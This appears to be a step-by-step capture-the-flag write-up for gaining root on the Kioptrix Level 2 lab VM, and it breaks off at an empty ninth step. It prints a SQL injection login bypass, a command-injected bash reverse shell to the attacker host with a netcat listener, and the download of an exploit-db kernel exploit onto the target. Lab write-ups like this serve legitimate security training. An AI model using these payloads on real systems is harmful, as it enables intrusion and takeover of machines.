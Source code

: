 # Summary
This document will walk you through the procedure (step-by-step) to root the machine Kioptrix Level 2.
The Goal is to gain "root" access in the target machine.

**WARNING:** This walk through is to be used for learning/educational purposes only.

**NOTE:**
Kioptrix Level 2 is a vulnerable VM, which will be our target machine.
Kali Linux (2020) is the VM being used to carry out the pentesting, a.k.a. the attacker machine.
Both VMs are being hosted on VM Workstation.

# WalkThrough

**Step 1:**
Turn on the Target Machine. Run netdiscover on local machine (Attacker's) on interface eth0
> netdiscover -i eth0

Target Machine IP found to be `192.168.1.250`

**Step 2:**
Run NMap to scan target machine for open ports. 
> nmap -sC 192.168.1.250

Ports found open: 22, 80, 111, 443, 3306

**Step 3:**
Visit `http://192.168.1.250/index.php` on the browser. We come across this login page.
![remote_sysadmin_login.png](remote_sysadmin_login.png)

We try the `admin:admin` combination for the `username:password` and it doesn't work.
Attempting a SQL Injection, we set the username as `admin' or '1'='1` and see if it works.
We are through, to the next page

**Step 4:**
The next page looks like this.

![admin_webconsole.png](admin_webconsole.png)

The source code for this page says that it is a  `pingit` feature, where the machine IP mentioned in the input field would be pinged and the browser would receive a response.

We enter `localhost` as the input and we receive the following response.
![localhost_response.png](localhost_response.png)

**Step 5:**
Next step is to spawn a reverse shell to acquire prolonged shell access to the target machine. We can concatenate shell commands one after another to achieve this. Visit `http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` to find the one-liner reverse shell command.

The command is `bash -i >& /dev/tcp/<attacker's IP>/<attacker's Port> 0>&1`

**Step 6:**
On the local machine, we use netcat to listen to port 443
> nc -lvp 443

Also, in the input field we write `localhost; bash -i >& /dev/tcp/192.168.1.200/443 0>&1`, and hit Enter.

![reverse_shell.png](reverse_shell.png)

**Step 7:**
Once we have acquired Shell access, we see that current user is `apache`. In order to get root access, we should launch a privilege escalation attack. To determine which exploit to use, we find the kernel information of the target machine.

![target_kernel.png](target_kernel.png)

We search for available exploits and find one available at `https://www.exploit-db.com/exploits/9542`. We download it using the following command.
> wget https://www.exploit-db.com/exploits/9542 -O exploit.c

The exploit is downloaded on the attacker's machine.

**Step 8:**
Since the exploit cannot be downloaded directly onto the target machine, we will initiate a Simple HTTP server on the attacker's machine.
![httpserver_init.png](httpserver_init.png)

And on the target machine, we run the following command to download the exploit.
> wget http://192.168.1.200:8000/exploit.c 

**Step 9:**






